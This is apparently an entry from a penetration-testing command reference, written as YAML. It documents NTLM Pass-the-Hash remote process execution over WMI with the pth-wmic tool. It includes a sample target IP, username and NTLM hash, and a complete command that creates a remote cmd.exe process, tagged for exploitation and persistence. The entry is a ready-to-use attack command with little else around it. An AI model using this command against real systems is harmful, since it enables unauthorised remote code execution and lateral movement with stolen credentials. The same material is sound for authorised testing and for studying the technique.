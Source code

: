 ```yaml
---
description: Execute processes remotely over WMI using wmic with NTLM Pass-the-Hash.

Command Reference:
    Target IP: 10.10.10.1
    Domain: N/A
    Username: john
    Hash: 580B16D486D8D2CAFA00B314D41FA396 (NTLM hash)

command: |
  pth-wmic -U john%00000000000000000000000000000000:580B16D486D8D2CAFA00B314D41FA396 --namespace //root/cimv2 --node 10.10.10.1 process call create "cmd.exe /c whoami"

items:
  - Hash

services:
  - WMI
  - NTLM

OS:
  - Windows

attack_types:
  - Exploitation
  - Persistence

references:
  - https://github.com/byt3bl33d3r/pth-toolkit
  - https://learn.microsoft.com/en-us/windows/win32/wmisdk/wmi-start-page
---
```

